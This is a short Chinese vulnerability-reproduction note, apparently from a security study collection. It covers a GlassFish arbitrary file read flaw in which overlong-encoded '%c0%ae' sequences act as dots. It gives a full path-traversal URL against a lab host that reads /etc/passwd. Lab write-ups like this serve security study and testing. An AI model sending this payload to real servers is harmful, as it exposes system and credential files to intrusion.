


# GlassFish 任意文件读取漏洞

> 漏洞说明

​	java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

> 前提条件

> 利用工具

> 漏洞复现

​	搭建靶场，https://192.168.40.77:4848/为管理页面

​	在url直接拼接`/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`路径穿越读取/etc/passwd

